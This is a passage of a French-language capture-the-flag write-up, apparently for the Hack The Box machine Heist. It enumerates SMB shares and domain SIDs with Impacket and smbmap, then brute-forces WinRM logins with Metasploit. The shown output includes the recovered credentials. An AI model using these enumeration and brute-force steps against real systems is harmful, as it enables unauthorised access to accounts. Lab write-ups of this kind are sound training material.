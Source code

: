`sudo psexec.py Hazard:stealth1agent@10.10.10.149 whoami`

```bash
[sudo] Mot de passe de audit : 
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Requesting shares on 10.10.10.149.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

`smbmap -H 10.10.10.149 -u Hazard -p stealth1agent -s IPC$ -R 'IPC$\'`

```bash
-r--r--r--                3 Mon Jan  1 00:09:21 1601	InitShutdown
-r--r--r--                4 Mon Jan  1 00:09:21 1601	lsass
[...]	
-r--r--r--                1 Mon Jan  1 00:09:21 1601	PSHost.132165790869132972.5328.DefaultAppDomain.wsmprovhost
-r--r--r--                1 Mon Jan  1 00:09:21 1601	IISFCGI-6ea1fdcc-b132-4ba9-b0d9-1773040bf5c9
```

### WinRM (5985/TCP)

- Le compte de `Hazard` marche sur SMB et RPC mais pas sur WinRM, or WinRM est le seul service qui nous permettrai d'avoir un reverse shell


- On cherche d'autre compte : 

`sudo lookupsid.py Hazard:stealth1agent@10.10.10.149`

```bash
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

- On va brute force en associant l'ensemble des trois comptes (support, Chase, Jason) et des trois mots de passes : 

```
msf5 auxiliary(scanner/winrm/winrm_login) >
PASS_FILE         /.../Heist/pass.list
USER_FILE         /.../Heist/user.list
RHOSTS            10.10.10.149
DOMAIN            SUPPORTDESK
msf5 auxiliary(scanner/winrm/winrm_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.149:5985 - LOGIN FAILED: SUPPORTDESK\support:support (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: SUPPORTDESK\support:stealth1agent (Incorrect: )
[...]
[-] 10.10.10.149:5985 - LOGIN FAILED: SUPPORTDESK\Chase:$uperP@ssword (Incorrect: )
[+] 10.10.10.149:5985 - Login Successful: SUPPORTDESK\Chase:Q4)sJu\Y8qz*A3?d
```
